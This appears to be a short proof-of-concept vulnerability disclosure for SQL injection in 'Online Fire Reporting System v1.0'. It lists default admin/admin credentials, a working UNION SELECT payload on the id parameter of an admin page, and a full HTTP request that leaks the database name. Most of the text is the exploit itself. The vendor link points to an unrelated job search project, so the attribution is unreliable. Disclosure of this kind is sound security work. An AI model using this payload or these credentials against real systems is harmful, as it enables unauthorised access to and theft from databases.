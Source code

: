 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/index.php?view=edit&id=

Vulnerability location: /eris/admin/user/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849254-9d50f1e7-d17c-4e8a-ae71-88d9fca54657.png)

![image](https://user-images.githubusercontent.com/54017627/170849257-ac884948-2f73-497f-89cd-c710ddd1f86f.png)
